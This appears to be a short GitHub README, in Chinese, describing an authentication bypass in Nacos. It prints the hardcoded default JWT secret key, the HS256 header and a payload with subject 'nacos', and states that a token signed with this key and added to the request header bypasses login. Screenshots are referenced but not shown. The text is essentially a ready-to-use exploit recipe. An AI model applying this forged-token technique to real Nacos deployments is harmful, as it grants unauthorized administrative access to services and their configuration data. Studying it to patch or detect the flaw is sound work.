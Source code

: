 # Nacos-auth-bypass

Nacos 身份认证绕过

由补丁可知：
nacos.core.auth.plugin.nacos.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789

JWT构成：base64编码的header.base64编码的payload+hmac(f(header,payload,key))
参考https://blog.csdn.net/weixin_45839321/article/details/108935762

由于key硬编码，因此可以根据header+payload构造hmac  通过签名认证
header：
{
  "alg": "HS256"
}

payload：
{
  "sub": "nacos",
  "exp": 1678806359   //这里是时间戳
}

key=SecretKey012345678901234567890123456789012345678901234567890123456789
据此构造json web token 添加到请求头   即可绕过登录认证

![image](https://user-images.githubusercontent.com/55875284/225000451-f498341e-c823-4672-ac39-17e9bc91c3ac.png)


![image](https://user-images.githubusercontent.com/55875284/224986445-1d78e6c9-ae8b-4f3f-9b73-0e1e82babd86.png)
